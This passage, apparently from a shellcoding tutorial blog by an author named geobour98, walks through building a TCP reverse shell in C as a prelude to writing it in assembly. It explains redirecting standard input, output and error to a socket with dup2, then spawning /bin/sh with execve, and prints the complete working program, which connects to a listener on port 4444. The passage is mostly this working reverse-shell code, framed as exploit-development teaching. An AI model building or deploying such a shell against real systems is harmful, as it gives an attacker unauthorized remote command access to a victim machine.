 Duplicate STDIN, STDOUT and STDERR file descriptors in order to redirect everything to the socket connected:

```c
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);
```

Execute the `/bin/sh` program:

```c
execve("/bin/sh", NULL, NULL);
```

The whole `C` program is the following:

```c
// TCP Reverse Shell
// Author: geobour98

#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>

int main()
{
	
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	struct sockaddr_in address = {
		.sin_family = AF_INET,
		.sin_port = htons(4444),
		.sin_addr = inet_addr("127.1.1.1")
	};

	connect(sockfd, (struct sockaddr*) &address, sizeof(address));

	dup2(sockfd, 0);
	dup2(sockfd, 1);
	dup2(sockfd, 2);

	execve("/bin/sh", NULL, NULL);
	
	return 0;
}
```



> **Syscall Arguments**
>
> The arguments and their values for the syscalls will be explained later in the creation of the TCP Reverse Shell in Assembly.
{: .prompt-warning }

